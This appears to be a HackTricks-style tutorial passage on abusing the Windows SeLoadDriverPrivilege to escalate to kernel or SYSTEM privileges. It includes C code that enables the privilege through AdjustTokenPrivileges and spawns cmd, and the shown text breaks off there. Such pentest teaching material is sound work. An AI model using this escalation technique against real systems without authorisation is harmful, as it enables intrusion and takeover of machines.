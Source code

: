 # Abuse SeLoadDriverPrivilege

<details><summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary></details>

## SeLoadDriverPrivilege <a href="#seloaddriverprivilege" id="seloaddriverprivilege"></a>

A very dangerous privilege to assign to any user - it allows the user to load kernel drivers and execute code with kernel privilges aka `NT\System`. See how `offense\spotless` user has this privilege:

![](../../../.gitbook/assets/a8.png)

`Whoami /priv` shows the privilege is disabled by default:

![](../../../.gitbook/assets/a9.png)

However, the below code allows enabling that privilege fairly easily:


```c
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>

int main()
{
	TOKEN_PRIVILEGES tp;
	LUID luid;
	bool bEnablePrivilege(true);
	HANDLE hToken(NULL);
	OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system
		L"SeLoadDriverPrivilege",   // privilege to lookup 
		&luid))        // receives LUID of privilege
	{
		printf("LookupPrivilegeValue error: %un", GetLastError());
		return FALSE;
	}
	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	
	if (bEnablePrivilege) {
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	}
	
	// Enable the privilege or disable all privileges.
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		printf("AdjustTokenPrivileges error: %x", GetLastError());
		return FALSE;
	}

	system("cmd");
```